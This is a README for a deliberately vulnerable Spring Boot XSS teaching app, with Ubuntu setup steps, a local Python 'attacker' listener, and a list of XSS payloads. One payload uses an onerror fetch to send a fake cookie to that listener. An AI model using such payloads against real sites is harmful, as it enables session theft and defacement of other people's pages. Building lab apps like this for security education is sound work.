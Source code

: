 # vuln-xss-app — Vulnerable XSS Demo (Ubuntu-only)

**Project:** `vuln-xss-app`
**Purpose:** Local, controlled demonstration of reflected, stored, and DOM XSS for educational use only.

> ⚠️ **Warning:** Do **not** run these payloads or servers against other machines or on the Internet. Run all demos only on an isolated Ubuntu VM or localhost.

---

## Contents

* `pom.xml` — Maven project file
* `src/main/java/com/example/vulnxss/` — Spring Boot sources
* `src/main/resources/static/` — static frontend (search.html, comments.html, etc.)
* `attacker_listener.py` — optional local listener for safe exfiltration demo (lab-only)

---

## Ubuntu Quickstart (summary)

1. Install prerequisites (OpenJDK 17, Maven, Python3).
2. Run Spring Boot app: `mvn spring-boot:run` (default port 8080).
3. Optionally run the Python listener: `python3 attacker_listener.py` (port 9000) for a safe exfiltration demo.
4. Open browser in the VM and test payloads at `http://localhost:8080`.

---

## 1. Prerequisites (Ubuntu)

Open a terminal in your Ubuntu VM and run:

```bash
sudo apt update
sudo apt install -y openjdk-17-jdk maven python3 python3-pip curl ca-certificates
```

Verify:

```bash
java -version
mvn -v
python3 --version
```

If you need Node/npm (optional for extra frontend tooling), install Node 18 LTS via NodeSource:

```bash
curl -fsSL https://deb.nodesource.com/setup_18.x | sudo -E bash -
sudo apt install -y nodejs
node -v
npm -v
```

---

## 2. Prepare the project

Place (or clone) the project into your VM, e.g. `~/vuln-xss-app`. Confirm `pom.xml` is in the project root.

```bash
cd ~/vuln-xss-app
ls -la
# ensure pom.xml is present
```

---

## 3. Maven notes & common Java 17 issue

### Maven version & Java 17

Older Maven versions (notably 3.6.x installed from some apt repos) may use libraries that perform deep reflection (Guice/CGLIB) and can fail with `InaccessibleObjectException` on Java 17. If you see errors mentioning `com.google.inject.internal.cglib.core` or `Unable to make ... java.lang.ClassLoader.defineClass(...) accessible`, the cause is the JVM blocking reflective access.

**Quick temporary workaround:**

```bash
# in the shell before running maven commands (temporary for this session)
export MAVEN_OPTS="--add-opens=java.base/java.lang=ALL-UNNAMED"
mvn clean install -U
```

**Recommended:** upgrade Maven to a recent 3.8+ / 3.9.x release which bundles newer, Java-17–compatible libraries.

Example install of Maven 3.9.6 (one-off):

```bash
# download & extract (run as regular user; use sudo for /opt)
curl -fsSL https://archive.apache.org/dist/maven/maven-3/3.9.6/binaries/apache-maven-3.9.6-bin.tar.gz -o maven.tar.gz
sudo tar -xzf maven.tar.gz -C /opt
sudo ln -sf /opt/apache-maven-3.9.6/bin/mvn /usr/local/bin/mvn
hash -r
mvn -v
```

If `mvn -v` still shows an older Maven, remove the apt-installed package first:

```bash
sudo apt remove maven -y
hash -r
mvn -v
```

---

## 4. Build the project (from project root)

You must run Maven commands from the directory that contains `pom.xml`:

```bash
cd ~/vuln-xss-app
# build and update remote artifacts
mvn clean install -U
```

If Maven previously failed due to the reflection error, either set `MAVEN_OPTS` as above or upgrade Maven first.

---

## 5. Run the Spring Boot app

From the project root (same directory where `pom.xml` lives):

```bash
cd ~/vuln-xss-app
mvn spring-boot:run
# OR run on a different port
mvn spring-boot:run -Dspring-boot.run.arguments="--server.port=3001"
```

Watch the terminal logs — when you see a line like:

```
Tomcat started on port(s): 8080 (http)
Started VulnXssApplication in X seconds
```

then open the app in the VM browser: `http://localhost:8080` (or `:3001`).

If you run the browser on the host, use the VM's IP address instead.

---

## 6. Single-file Java server (no Maven alternative)

A lightweight single-file Java server (`VulnXssServer.java`) is available if you prefer not to use Maven.

```bash
# compile & run
javac VulnXssServer.java
java VulnXssServer
# server listens on http://localhost:3000
```

---

## 7. Optional: Local Python listener (safe exfil demo)

Create `attacker_listener.py` in the project root with this content (lab-only):

```python
# attacker_listener.py (lab-only)
from http.server import BaseHTTPRequestHandler, HTTPServer

class Handler(BaseHTTPRequestHandler):
    def do_POST(self):
        length = int(self.headers.get('content-length', 0))
        body = self.rfile.read(length).decode('utf-8', errors='replace')
        print("=== Request received ===")
        print("Path:", self.path)
        print("Headers:")
        for k, v in self.headers.items():
            print(f"  {k}: {v}")
        print("Body:")
        print(body)
        print("="*30)
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'OK')

if __name__ == "__main__":
    server = HTTPServer(('0.0.0.0', 9000), Handler)
    print("Listening on http://0.0.0.0:9000 (press Ctrl+C to stop)")
    server.serve_forever()
```

Run it in a terminal:

```bash
python3 attacker_listener.py
```

Keep this terminal open — when a payload posts to `http://localhost:9000/log` the listener prints the request.

---

## 8. Test payloads (use in `q=` or comments form)

* Simple alert (may be blocked by modern browsers/extensions):

```
<script>alert('reflected')</script>
```

* Reliable onerror payload (expected 404 then runs):

```html
<img src=x onerror="console.log('XSS fired'); document.body.style.border='6px solid red'">
```

* Visual defacement (safe):

```html
<script>document.body.innerHTML='<h1 style="color:red">Hacked — demo</h1>'</script>
```

* Local exfil (lab-only):

```html
<img src=x onerror="fetch('http://localhost:9000/log',{method:'POST',headers:{'Content-Type':'text/plain'},body:'demo-cookie=FAKE'})">
```

---

## 9. Troubleshooting

* **Port already in use:**

  * `sudo lsof -i :8080` to see PID
  * `sudo kill <PID>` to stop it (only if safe)
  * Or run on another port with `--server.port=3001`.

* **`mvn` or `java` not found:** ensure packages from step 1 installed and re-open terminal.

* **InaccessibleObjectException / reflective access errors:**

  * Quick: `export MAVEN_OPTS="--add-opens=java.base/java.lang=ALL-UNNAMED"` then run `mvn clean install -U`.
  * Permanent: upgrade Maven to 3.8+/3.9.x as shown above.

* **Browser blocking alerts or execution:**

  * Use `console.log` + DOM banner payload for reliable evidence.
  * Test in a fresh browser profile or incognito to avoid extensions.

* **Listener not receiving requests:** ensure the `fetch` target is reachable from the browser. If browser runs on host and listener on VM, replace `localhost` with VM IP.
